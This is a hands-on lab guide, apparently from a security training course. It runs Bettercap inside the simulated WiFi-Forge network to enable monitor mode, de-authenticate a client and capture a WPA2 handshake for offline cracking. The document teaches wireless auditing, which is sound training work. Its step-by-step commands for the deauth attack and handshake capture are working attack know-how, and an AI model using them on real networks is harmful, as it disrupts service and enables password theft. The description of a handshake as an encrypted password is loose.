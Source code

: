 # OPTIONAL WiFi-Forge Lab

!!! warning
    WiFi-Forge is under **active development** (AKA - this Lab may have issues) by the good folks at Black Hills Information Security. They are seeking feedback on the tool and welcome the submission of any issues on the [main GitHub page](https://github.com/blackhillsinfosec/Wifi-Forge/issues).

    A forked version can be found at [https://github.com/ridgebackinfosec/Wifi-Forge](https://github.com/ridgebackinfosec/Wifi-Forge) which should work with this Lab.

!!! note
    This and many more WiFi-Forge Labs are available at [https://wififorge.github.io/](https://wififorge.github.io/). 
    
    Follow the install steps from the slides or [here](https://wififorge.github.io/Installation/Installation) before working on this Lab.

In this lab, we will familiarize ourselves with Bettercap, a common wireless auditing tool.

## Getting Started with Bettercap

```bash
cd ~/Wifi-Forge/Framework
sudo python3 WifiForge.py
```

Select **Bettercap Recon** from the menu. Allow up to 30 seconds to initialize the network.

![Bettercap Recon](img/main-menu.png)

!!! note
    Normally, when using Bettercap with physical network cards, it is necessary to use `airmon-ng check kill` to terminate processes that may interfere. However, running this command in the mininet-wifi network is unnecessary and may cause failures.

Start by putting the interface `a-wlan0` in monitor mode:

```bash
airmon-ng start a-wlan0
```

If prompted, input **y** and hit enter.

![Prompt](img/prompts.png)

Successful initialization will appear as shown below:

![Initialization Success](img/init-success.png)

Verify that the interface has been put into monitor mode:

```bash
ifconfig | grep flags
```

The interface `a-wlan0mon` should now be present:

![Monitor Mode Active](img/monitor-mode.png)

## Launching Bettercap

Run the following command to start Bettercap with the interface in monitor mode:

```bash
bettercap -iface a-wlan0mon
```

You will be greeted by a prompt displaying the network interface name:

![Bettercap Interface](img/interface.png)

The following commands configure the console for a more understandable workflow to view the de-authentication attack:

```bash
set wifi.show.sort clients desc
set ticker.commands 'clear; wifi.show'
ticker on
set wifi.show.sort clients desc
```

After running these commands, you should see the following on your screen:

![Bettercap Console](img/console.png)

Disable console logging using:

```bash
events.stream off
```

## Capturing Handshakes

Set the handshakes file and enable the `wifi.recon` module:

```bash
set wifi.handshakes.file ./loot/4whs
wifi.recon on
```

Force the interface to operate only on channel 6:

```bash
wifi.recon.channel 6
```

Start the de-authentication attack:

```bash
wifi.deauth 76:df:71:67:40:2b
```

It may take a few seconds, but Bettercap will catch the handshake:

![Handshake Captured](img/handshake.png)

A handshake is an encrypted WPA2 password intercepted between the client and router, which can be decrypted offline.

Your final packet count may differ from the screenshot.
